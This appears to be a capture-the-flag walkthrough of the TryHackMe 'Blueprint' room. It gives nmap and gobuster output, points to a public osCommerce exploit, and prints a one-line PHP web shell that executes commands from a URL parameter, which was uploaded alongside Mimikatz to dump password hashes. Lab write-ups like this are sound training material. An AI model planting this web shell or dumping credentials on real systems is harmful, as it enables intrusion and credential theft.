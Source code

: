 # 8 - Blueprint

Room Link --> [https://tryhackme.com/room/blueprint](https://tryhackme.com/room/blueprint)

Nmap Results:

{% code overflow="wrap" lineNumbers="true" %}
```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```
{% endcode %}

All are dead-ends, except the port 8080.

`gobuster dir -u http://10.10.138.195:8080/ -x php,html,txt,aspx,asp -t 15 -q -w /usr/share/wordlists/dirb/common.txt` - dir search.

Search exploit-db.com for known exploits for "oscommerce", i used this one --> [https://www.exploit-db.com/exploits/44374](https://www.exploit-db.com/exploits/44374)

Edit the content of the script:

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>1</p></figcaption></figure>

used it to upload mimikatz, and a php web cmd shell:&#x20;

{% code title="shell.php" %}
```php
# to execute cmds from the webpage directly
<?php echo shell_exec($_GET["cmd"]); ?>
```
{% endcode %}

Use Mimikatz to dump the hashes and read the root flag.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>2</p></figcaption></figure>

